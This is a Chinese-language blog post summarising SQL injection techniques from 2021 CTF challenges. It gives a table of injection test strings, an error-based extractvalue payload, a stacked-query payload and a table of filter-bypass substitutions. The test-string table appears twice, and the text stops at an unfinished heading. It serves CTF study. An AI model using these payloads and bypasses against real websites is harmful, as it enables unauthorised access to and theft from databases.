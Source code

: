 ```yaml
---
title: sql注入分享
comments: true
hide: true
date: 2021-05-26 13:43:04
urlname: sqlinjection
updated:
password:
tags:
categories:
---
```






<!-- more -->

# SQL注入

今年本人参加的CTF中记录的sql题目，由于可能有多种解，这里列出本人解法仅供参考

| 比赛-题目名称            | 注入类型   | 详细情况                                               |
| ------------------------ | ---------- | ------------------------------------------------------ |
| MTCTF-sql                | 盲注       | 布尔型，同表查询                                       |
| 国赛CISCN-easy_sql       | 盲注，报错 | sqlmap一把梭，布尔型/延时注入/报错注入，最后无列名注入 |
| 红帽杯-WebsiteManger     | 盲注       | 布尔型(异或)/延时注入                                  |
| 红明谷-happysql          | 盲注       | 布尔型(正则)，无列名注入                               |
| DASCTF三月赛-bestDB      | 联合注入   | load_file()                                            |
| V&NCTF-realezjvav        | 盲注       | 延时注入(笛卡尔积)                                     |
| HGAME-200OK!             | 联合注入   | 基础SQL注入                                            |
| HGAME-Liki-Jail          | 盲注       | 延时注入                                               |
| 春秋杯新春欢乐赛-按F注入 | 联合注入   | Pgsql，延时注入(也许)/信息外带/数据库外联              |

打个广告，各比赛的WP，有需要的师傅可以看看

[春秋杯2021新春欢乐赛一道题——按F注入 对pgsql的研究](https://err0r.top/article/cqb2021/)

[V&N2021公开赛](https://err0r.top/article/VN2021ctf/)

[SQL无列名注入](https://err0r.top/article/mardasctf/)

[红帽杯2021](https://err0r.top/article/redhat2021/)

[2021CISCN-WP](https://err0r.top/article/ciscn2021/)

统计了一下今年的SQL注入题目，可能不全，从上表能看出大部分都是盲注，盲注的重要性可想而知。首先我们了解一下注入的常用函数。

---

## 常用函数

1. version()——MySQL版本
2. user()——用户名
3. database()——数据库名
4. @@datadir——数据库路径
5. @@version_compile_os——操作系统版本

最常用的一般是`database()`，有时候注意看`user()`，有些题目给的是root用户，需要用`load_file()`读文件，下面开始注入准备

---

## 测试注入

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

---

## 盲注

盲注，就是指执行sql语句后返回值不直接回显到前端页面



---

过滤情况

过滤select

比较劲爆，如果有回显可以报错注入查出简单信息

```sql
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
```

`user()`/`database()`/`version()`

- 但这不行，可以利用堆叠注入绕过过滤

```sql
-1';show tables#
```

然后利用预编译方式查数据

经典题目：[2019强网杯-随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

- 或者`alter`改表名，然后万能密码登陆出结果(如果可回显的话)

- 据说web端过滤也许可以preg_match回溯限制(有的情况)

- 同表的话可以同表查询

  盲注字段名利用`left(column,0)`

  当存在字段时返回True

基本过滤

|      过滤      |      替代方法       |
| :------------: | :-----------------: |
|      and       |          &          |
|       or       |         \|          |
|     [空格]     |    /**/或()或%0a    |
|       #        |         --+         |
|    substr()    | mid()、substring()  |
|    ascii()     | hex()、bin()、ord() |
|    sleep()     |     benchmark()     |
| group_concat() |     concat_ws()     |
|      <、>      |     greatest()      |
|   limit n,m    |  limit m offset n   |

| 测试字符串        | 变  种              | 预 期 结 果                                                |
| ----------------- | ------------------- | ---------------------------------------------------------- |
| '                 |                     | 触发错误。如果成功，数据库将返回一个错误                   |
| 1' or '1'='1      | 1') or ('1'='1      | 永真条件。如果成功，将返回表中所有的行                     |
| value' or '1'='2  | value') or ('1'='2  | 空条件。如果成功，将返回与原来的值相同的结果               |
| 1' and '1'='2     | 1') and ('1'='2     | 永假条件。如果成功，将不返回表中任何行                     |
| 1' or 'ab'='a'+'b | 1') or ('ab'='a'+'b | SQL Server字符串连接。如果成功，将返回与永真条件相同的信息 |
| 1' or 'ab'='a' 'b | 1') or ('ab'='a' 'b | MySQL字符串连接。如果成功，将返回与永真条件相同的信息      |
| 1' or 'ab'='a'‖'b | 1') or ('ab'='a'‖'b | Oracle字符串连接。如果成功，将返回与永真条件相同的信息     |

移位溢注

知道表名不需要知道字段名